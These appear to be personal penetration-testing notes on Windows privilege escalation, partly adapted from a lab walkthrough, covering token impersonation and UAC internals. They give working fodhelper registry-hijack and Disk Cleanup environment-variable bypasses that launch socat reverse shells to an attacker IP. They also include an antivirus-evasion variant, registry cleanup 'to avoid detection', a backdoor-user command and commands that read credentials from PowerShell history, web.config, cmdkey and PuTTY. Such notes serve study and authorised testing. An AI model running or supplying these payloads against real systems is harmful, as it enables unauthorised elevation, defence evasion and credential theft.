


# Win

```
 whoami /priv
```

## Metasploit post modules

Scanning privli escalation vulnerabilities

Not Offline requires active session

<pre><code><strong>meterpreter> run post/multi/recon/local_exploit_suggester
</strong></code></pre>

| Command                                 | Description                                    |
| --------------------------------------- | ---------------------------------------------- |
| `getsystem`                             | Try to escalate to SYSTEM privileges. WIN ONLY |
| `getprivs  OR windows/gather/win_privs` | see what privileges we have                    |
| `whoami /priv`                          | see the privs we have : in Shell               |

## Windows exploit suggester

#### ✅ Standalone Python script

#### 🔧 **How it works:**

* Takes a `systeminfo` output from a Windows host.
* Compares it to a local database of **Microsoft security bulletins (patches)**.
* Identifies **missing patches** and maps them to **known privilege escalation exploits** (from ExploitDB, MS bulletins, etc.).
* OFFLINE





## Privscheck

This script aims to identify **Local Privilege Escalation** (LPE) vulnerabilities that are usually due to Windows configuration issues, or bad practices. It can also gather useful information for some exploitation and post-exploitation tasks.



### Basic checks only

Quickly identify important issues, such as local privilege escalation vulnerabilities.

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```

### &#x20;Extended checks + human-readable reports

Identify important issues, but also gather additional information, and save the results to report files that are easy to read.

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML"
```

### &#x20;All checks + all reports

Perform extended and audit checks, and save the results to human-readable reports, but also machine-readable files, which can later be parsed for automated report generation.

```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Audit -Report PrivescCheck_$($env:COMPUTERNAME) -Format TXT,HTML,CSV,XML"
```

### Check types

All the checks implemented in PrivescCheck have a **Type**. This value, and the flags specified on the command line, will determine if they are run, or not.

#### Bas

Checks of type `Base` will always be executed, unless the script is run as an administrator. They are mainly intended for identifying privilege escalation vulnerabilities, or other important issues.

#### Extended

Checks of type `Extended` can only be executed if the option `-Extended` is specified on the command line. They are mainly intended for providing additional information that could be useful for exploit development, or post-exploitation.

#### Audit

Checks of type `Audit` can only be executed if the option `-Audit` is specified on the command line. They are mainly intended for providing information that is relevant in the context of a configuration audit.

#### Experimental

Checks of type `Experimental` can only be executed if the option `-Experimental` is specified on the command line. These are unstable checks that need further work. Use them with caution.

## &#x20;Access Token Impersonation

* winlogon.exe procces

<figure><figcaption></figcaption></figure>

<p align="center"><strong>!!! IMPORTANT !!!</strong></p>

<figure><figcaption></figcaption></figure>

***

### 🪪 What Is an Access Token (Windows Security)?

An **Access Token** in Windows is a **data structure** that contains **security information** about a **logged-in user** or **process**.

It tells the system:

* **Who** you are
* **What** you can do (privileges)
* **Where** you belong (groups)

Think of it like your **"security passport"** for Windows. When you log in, Windows creates a token and attaches it to every process you run.


Only metepreter gets elvated privalages not the actual shell


***

### 🔍 What’s Inside an Access Token?

| Component           | Description                                                                |
| ------------------- | -------------------------------------------------------------------------- |
| **User SID**        | The unique ID of the user                                                  |
| **Group SIDs**      | The user’s group memberships (e.g., Administrators, Users)                 |
| **Privileges**      | Rights like `SeDebugPrivilege`, `SeImpersonatePrivilege`, etc.             |
| **Integrity Level** | Tells Windows how trusted the process is (e.g., low, medium, high, system) |
| **Linked Token**    | For UAC (Standard + Elevated token on admin accounts)                      |

***

### 🧠 What is Access Token Impersonation (for Privilege Escalation)?

**Access token impersonation** allows an attacker to **run code with the privileges of a more powerful user (like SYSTEM or Admin)** by stealing or impersonating that user's **access token** — without knowing their credentials.

🔒 **An access token = a "proof of identity" + permissions** for a user session. Windows uses it to control what you can do.

***

### 🛠️ How It Enables Privilege Escalation

After gaining **initial access** (e.g., as a low-privilege user), the attacker looks for a way to **steal or impersonate a token** that belongs to a **higher-privileged** process or session (e.g., Administrator or SYSTEM). Once impersonated, the attacker can:

* **Spawn processes** as that higher-privileged user
* **Access files**, **install services**, or **execute commands** they normally can’t

***

### Metasploit Module

📦 Module used: Incognito

🔐 Requirments: SeImpersonatePrivilege

> `getprivs` see our privileges

Using Incognito

```
meterpreter> load incognito
```

Commands:

* `list_tokens -u`#   Show available user tokens
* `list_tokens -g` # Show available groups
* `impersonate_token` "DOMAIN\Administrator" # Impersonate a token
* `getuid` # Confirm elevated identity

## &#x20;UAC

User Account Control (UAC) is a Windows security feature that forces any **new process to run** in the security context of a non-privileged account by default. This policy applies to processes started by any user, including administrators themselves. The idea is that we **can't solely rely on the user's identity to determine if some actions should be authorized.**

Although this may seem counterintuitive, imagine the case where user BOB unknowingly downloads a malicious application from the Internet. If BOB is a part of the Administrators group, any application he launches will inherit its access token privileges. So if BOB decides to launch the malicious application and UAC is disabled, the malicious application would gain administrator privileges instantly. Instead, the malicious application will be restricted to a non-administrative access token when UAC is enabled.

First we need to check if our current user its inside the adminstrator group otherwise we cant bypass UAC

### **UAC Elevation**

If an administrator is required to perform a privileged task, UAC provides a way to elevate privileges. Elevation works by presenting a simple dialogue box to the user to confirm that they explicitly approve running the application in an administrative security context:<br>

<figure><figcaption></figcaption></figure>

### Integrity Levels

UAC is a **Mandatory Integrity Control (MIC)**, which is a mechanism that allows differentiating users, processes and resources by assigning an **Integrity Level (IL)** to each of them. In general terms, users or processes with a higher IL access token will be able to access resources with lower or equal ILs.

| Integrity Level | Use                                                                                                                                           |
| --------------- | --------------------------------------------------------------------------------------------------------------------------------------------- |
| Low             | <p>Generally used for interaction with the Internet (i.e. Internet Explorer). Has very limited permissions.<br></p>                           |
| Medium          | <p>Assigned to standard users and Administrators' filtered tokens.<br></p>                                                                    |
| High            | <p>Used by Administrators' elevated tokens if UAC is enabled. If UAC is disabled, all administrators will always use a high IL token.<br></p> |
| System          | Reserved for system use                                                                                                                       |

### Filtered Tokens

To accomplish this separation of roles, UAC treats regular users and administrators in a slightly different way during logon:

* **Non-administrators** will receive a single access token when logged in, which will be used for all tasks performed by the user. This token has Medium IL.
* **Administrators** will receive two access tokens:
  * **Filtered Token:** A token with Administrator privileges stripped, used for regular operations. This token has Medium IL.
  * **Elevated Token:** A token with full Administrator privileges, used when something needs to be run with administrative privileges. This token has High IL.

<figure><figcaption></figcaption></figure>

If we analyze both processes using Process Hacker, we can see the associated tokens and their differences :

<br>

<figure><figcaption></figcaption></figure>

### UAC Settings

Depending on our security requirements, UAC can be configured to run at four different notification levels:

* **Always notify:** Notify and prompt the user for authorization when making changes to Windows settings or when a program tries to install applications or make changes to the computer.
* **Notify me only when programs try to make changes to my computer:** Notify and prompt the user for authorization when a program tries to install applications or make changes to the computer. Administrators won't be prompted when changing Windows settings.
* Notify me only when programs try to make changes to my computer (do not dim my desktop): Same as above, but won't run the UAC prompt on a secure desktop.
* Never notify: Disable UAC prompt. Administrators will run everything using a high privilege token.

By default, UAC is configured on the Notify me only when programs try to make changes to my computer level:


### UAC Internals

At the heart of UAC, we have the **Application Information Service** or **Appinfo**. Whenever a user requires elevation, the following occurs:

1. The user requests to run an application as administrator.
2. A **ShellExecute** API call is made using the **runas** verb.
3. The request gets forwarded to Appinfo to handle elevation.
4. The application manifest is checked to see if AutoElevation is allowed (more on this later).
5. Appinfo executes **consent.exe**, which shows the UAC prompt on a **secure desktop**. A secure desktop is simply a separate desktop that isolates processes from whatever is running in the actual user's desktop to avoid other processes from tampering with the UAC prompt in any way.
6. If the user gives consent to run the application as administrator, the Appinfo service will execute the request using a user's Elevated Token. Appinfo will then set the parent process ID of the new process to point to the shell from which elevation was requested.

<figure><figcaption></figcaption></figure>

### Bypassing UAC

From an attacker's perspective, there might be situations where you get a remote shell to a Windows host via Powershell or cmd.exe. You might even gain access through an account that is part of the Administrators group, but when you try creating a backdoor user for future access, you get the following error:

```shell-session
PS C:\Users\attacker> net user backdoor Backd00r /add
System error 5 has occurred.

Access is denied.
```

By checking our assigned groups, we can confirm that our session is running with a medium IL, meaning we are effectively using a filtered token:&#x20;

```shell-session
PS C:\Users\attacker> whoami /groups
	
GROUP INFORMATION
-----------------

Group Name                                                    Attributes
============================================================= ==================================================
Everyone                                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Group used for deny only
BUILTIN\Administrators                                        Group used for deny only
BUILTIN\Users                                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level
```

Even when we get a Powershell session with an administrative user, UAC prevents us from performing any administrative tasks as we are currently using a filtered token only. If we want to take full control of our target, we must bypass UAC.

**Interestingly enough, Microsoft doesn't consider UAC a security boundary** but rather a simple convenience to the administrator to avoid unnecessarily running processes with administrative privileges. In that sense, the UAC prompt is more of a reminder to the user that they are running with high privileges rather than impeding a piece of malware or an attacker from doing so. Since it isn't a security boundary, any bypass technique is not considered a vulnerability to Microsoft, and therefore some of them remain unpatched to this day.

Generally speaking, most of the bypass techniques rely on us being able to leverage a High IL process to execute something on our behalf. Since any process created by a High IL parent process will inherit the same integrity level, this will be enough to get an elevated token without requiring us to go through the UAC prompt.

#### GUI Based Bypass


Bescily we msconfig that allow to run tools with high privs or other apps which arleady have high privs lunch from inside them thanks to AutoElevate


#### **Case Study 1**

<figure><figcaption></figcaption></figure>


If we could force msconfig to spawn a shell for us, the shell would inherit the same access token used by msconfig and therefore be run as a high IL process. By navigating to the Tools tab, we can find an option to do just that:

This is possible thanks to a feature called auto elevation that allows specific binaries to elevate without requiring the user's interaction. More details on this later.

<figure><figcaption></figcaption></figure>

If we analyze the msconfig process with Process Hacker (available on your desktop), we notice something interesting. Even when no UAC prompt was presented to us, msconfig runs as a high IL process:

#### **Case Study 2**


This will once again bypass UAC and give us access to a high integrity command prompt. You can check the process tree in Process Hacker to see how the high integrity token is passed from mmc (Microsoft Management Console, launched through the Azman), all the way to cmd.exe:

<figure><figcaption></figcaption></figure>

This will spawn a notepad process that we can leverage to get a shell. To do so, go to **File->Open** and make sure to select **All Files** in the combo box on the lower right corner. Go to `C:\Windows\System32` and search for `cmd.exe` and right-click to select Open:

<figure><figcaption></figcaption></figure>

On the help screen, we will right-click any part of the help article and select **View Source**:

<figure><figcaption></figcaption></figure>

To run a shell, we will abuse the application's help:

<figure><figcaption></figcaption></figure>

We can confirm that a process with high IL was spawned by using Process Hacker. Notice that all .msc files are run from mmc.exe (Microsoft Management Console):

#### AutoElevate

As mentioned before, some executables can auto-elevate, achieving high IL without any user intervention. This applies to most of the Control Panel's functionality and some executables provided with Windows.

For an application, some requirements need to be met to auto-elevate:

* The executable must be signed by the Windows Publisher
* The executable must be contained in a **trusted directory**, like `%SystemRoot%/System32/` or `%ProgramFiles%/`

Depending on the type of application, additional requirements may apply:

* Executable files (.exe) must declare the autoElevate element inside their manifests. To check a file's manifest, we can use [**sigcheck**](https://docs.microsoft.com/en-us/sysinternals/downloads/sigcheck), a tool provided as part of the Sysinternals suite. You can find a copy of sigcheck on your machine on `C:\tools\` . If we check the manifest for msconfig.exe, we will find the autoElevate property:

> An EXE manifest is an XML file, either embedded or external, that tells Windows how to handle a program upon startup. It defines requirements like User Account Control (UAC) elevation (admin rights), compatibility with specific Windows versions, and dependence on DLL versions (side-by-side assemblies).

Windows has a hidden mechanism that allows specific "trusted" system files (like `Taskmgr.exe` or `Control.exe`) to bypass the standard User Account Control (UAC) prompt.&#x20;

* **What it does:** It automatically grants a program **High Integrity** (Administrator) privileges if the user is already an admin, without asking for permission.
* **The Manifest:** This is controlled by a line in the program’s internal code (manifest) that says `<autoElevate>true</autoElevate>`.
* **Security Risk:** Because these programs get high privileges automatically, hackers sometimes try to "hijack" them to gain control of the computer without the user noticing.

#### **Case study 4**

Fodhelper.exe is one of Windows default executables in charge of managing Windows optional features, including additional languages, applications not installed by default, or other operating system characteristics. Like most of the programs used for system configuration, fodhelper can auto elevate when using default UAC settings so that administrators won't be prompted for elevation when performing standard administrative tasks. While we've already taken a look at an autoElevate executable, unlike msconfig, fodhelper can be abused without having access to a GUI.

<figure><figcaption></figcaption></figure>

From an attacker's perspective, this means it can be used through a medium integrity remote shell and leveraged into a fully functional high integrity process. This particular technique was discovered by [@winscripting(opens in new tab)](https://winscripting.blog/2017/05/12/first-entry-welcome-and-uac-bypass/) and has been used in the wild by the [Glupteba malware(opens in new tab)](https://www.cybereason.com/blog/glupteba-expands-operation-and-toolkit-with-lolbins-cryptominer-and-router-exploit).

What was noticed about fodhelper is that it searches the registry for a specific key of interest:

<figure><figcaption></figcaption></figure>

When Windows opens a file, it checks the registry to know what application to use. The registry holds a key known as Programmatic ID (ProgID) for each filetype, where the corresponding application is associated. Let's say you try to open an HTML file. A part of the registry known as the **HKEY\_CLASSES\_ROOT** will be checked so that the system knows that it must use your preferred web client to open it. The command to use will be specified under the `shell/open/command` subkey for each file's ProgID. Taking the "htmlfile" ProgID as an example:

<figure><figcaption></figcaption></figure>

In reality, HKEY\_CLASSES\_ROOT is just a merged view of two different paths on the registry:

| Path                                           | Description                     |
| ---------------------------------------------- | ------------------------------- |
| <p>HKEY_LOCAL_MACHINE\Software\Classes<br></p> | System-wide file associations   |
| <p>HKEY_CURRENT_USER\Software\Classes<br></p>  | Active user's file associations |

When checking HKEY\_CLASSES\_ROOT, if there is a user-specific association at **HKEY\_CURRENT\_USER (HKCU)**, it will take priority. If no user-specific association is configured, then the system-wide association at **HKEY\_LOCAL\_MACHINE (HKLM)** will be used instead. This way, each user can choose their preferred applications separately if desired.

Going back to fodhelper, we now see that it's trying to open a file under the ms-settings ProgID. By creating an association for that ProgID in the current user's context under HKCU, we will override the default system-wide association and, therefore, control which command is used to open the file. Since fodhelper is an autoElevate executable, any subprocess it spawns will inherit a high integrity token, effectively bypassing UAC.

#### Putting it all together

One of our agents has planted a backdoor on the target server for your convenience. He managed to create an account within the Administrators group, but UAC is preventing the execution of any privileged tasks. To retrieve the flag, he needs you to bypass UAC and get a fully functional high IL shell.

To connect to the backdoor, you can use the following command:

```
nc 10.112.149.10 9999
```

Once connected, we check if our user is part of the Administrators group and that it is running with a medium integrity token:

Attacker's Shell

```shell-session
user@kali$ nc 10.112.149.10 9999
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
myserver\attacker

C:\Windows\system32>net user attacker | find "Local Group"
Local Group Memberships      *Administrators       *Users                

C:\Windows\system32>whoami /groups | find "Label"
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192
```

We set the required registry values to associate the ms-settings class to a reverse shell. For your convenience, a copy of **socat** can be found on `c:\tools\socat\`. You can use the following commands to set the required registry keys from a standard command line:

Command Prompt

```shell-session
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
The operation completed successfully.
```


Notice how we need to create an empty value called **DelegateExecute** for the class association to take effect. I**f this registry value is not present, the operating system will ignore the command and use the system-wide class association instead.**


We set up a listener by using netcat in our machine:

`nc -lvp 4444`<br>

And then proceed to execute **fodhelper.exe**, which in turn will trigger the execution of our reverse shell:

#### Clearing our tracks

As a result of executing this exploit, some artefacts were created on the target system in the form of registry keys. To avoid detection, we need to clean up after ourselves with the following command:

```batch
reg delete HKCU\Software\Classes\ms-settings\ /f
```

**Windows Defender**

A variation on the fodhelper exploit, where different registry keys are used, but the basic principle is the same.

Instead of writing our payload into `HKCU\Software\Classes\ms-settings\Shell\Open\command`, we will use the `CurVer` entry under a progID registry key. This entry is used when you have multiple instances of an application with different versions running on the same system. CurVer allows you to point to the default version of the application to be used by Windows when opening a given file type.

To this end, we will create an entry on the registry for a new progID of our choice (any name will do) and then point the CurVer entry in the ms-settings progID to our newly created progID. This way, when fodhelper tries opening a file using the ms-settings progID, it will notice the CurVer entry pointing to our new progID and check it to see what command to use.

The exploit code proposed by @V3ded uses Powershell to achieve this end. Here is a modified version of it adapted to use our reverse shell (be sure to replace your IP address where needed):

```powershell
$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
    
Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```

This exploit creates a new progID with the name **.pwn** and associates our payload to the command used when opening such files. It then points the CurVer entry of ms-settings to our .pwn progID. When fodhelper tries opening an ms-settings program, it will instead be pointed to the .pwn progID and use its associated command.

Although we are still detected, it is essential to note that sometimes the detection methods used by AV software are implemented strictly against the published exploit, without considering possible variations. If we translate our exploit from Powershell to use cmd.exe, the AV won't raise any alerts (be sure to replace your IP address where needed):

```shell-session
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes"

C:\> reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
The operation completed successfully.

C:\> reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
The operation completed successfully.

C:\> fodhelper.exe
```

#### Clearing our tracks

As a result of executing this exploit, some artefacts were created on the target system, such as registry keys. To avoid detection, we need to clean up after ourselves with the following commands:

```batch
reg delete "HKCU\Software\Classes\.thm\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```

### Bypassing Always Notify Level

As seen in the previous task, on default Windows configurations, you can abuse applications related to the system's configuration to bypass UAC as most of these apps have the autoElevate flag set on their manifests.&#x20;


However, **if UAC is configured on the "Always Notify" level, fodhelper and similar apps won't be of any use as they will require the user to go through the UAC prompt to elevate**. This would prevent several known bypass methods to be used, but not all hope is lost.


For the following technique, we'll be abusing a scheduled task that can be run by any user but will execute with the highest privileges available to the caller. Scheduled tasks are an exciting target. By design, they are meant to be run without any user interaction (independent of the UAC security level), so asking the user to elevate a process manually is not an option. Any scheduled tasks that require elevation will automatically get it without going through a UAC prompt\
**Case study: Disk Cleanup Scheduled Task**

To understand why we are picking Disk Cleanup, let's open the **Task Scheduler** and check the task's configuration:

<figure><figcaption></figcaption></figure>

Here we can see that the task is configured to run with the **Users** account, which means it will inherit the privileges from the calling user. The **Run with highest privileges** option will use the highest privilege security token available to the calling user, which is a high IL token for an administrator. Notice that if a regular non-admin user invokes this task, it will execute with medium IL only since that is the highest privilege token available to non-admins, and therefore the bypass wouldn't work.

Checking the Actions and Settings tabs, we have the following:

<figure><figcaption></figcaption></figure>

The task can be run on-demand, executing the following command when invoked:

&#x20;`%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%`

Since the command depends on environment variables, we might be able to inject commands through them and get them executed by starting the DiskCleanup task manually.

Luckily for us, we can override the `%windir%` variable through the registry by creating an entry in `HKCU\Environment`. If we want to execute a reverse shell using socat, we can set `%windir%`  as follows (without the quotes):

`"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "`

At the end of our command, we concatenate "\&REM " (ending with a blank space) to comment whatever is put after `%windir%` when expanding the environment variable to get the final command used by DiskCleanup. The resulting command would be (be sure to replace your IP address where needed):

`cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%`

Where anything after the "REM" is ignored as a comment.

<br>

### UACme



## **Windows configuration files**


[credential-dumping](../credential-dumping/)


## Powershell History

Whenever a user runs a command using Powershell, it gets stored into a file that keeps a memory of past commands. This is useful for repeating commands you have used before quickly. If a user runs a command that includes a password directly as part of the Powershell command line, it can later be retrieved by using the following command from a `cmd.exe` prompt:

```
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

**Note:** The command above will only work from cmd.exe, as Powershell won't recognize `%userprofile%` as an environment variable. To read the file from Powershell, you'd have to replace `%userprofile%` with `$Env:userprofile`.&#x20;

## Saved Windows Credentials

Windows allows us to use other users' credentials. This function also gives the option to save these credentials on the system. The command below will list saved credentials:

```shell-session
cmdkey /list
```

While you can't see the actual passwords, if you notice any credentials worth trying, you can use them with the `runas` command and the `/savecred` option, as seen below.

```shell-session
runas /savecred /user:admin cmd.exe
```

## IIS Configuration

Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:

* C:\inetpub\wwwroot\web.config
* C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

Here is a quick way to find database connection strings on the file:

```shell-session
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```

## Retrieve Credentials from Software: PuTT

```
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```

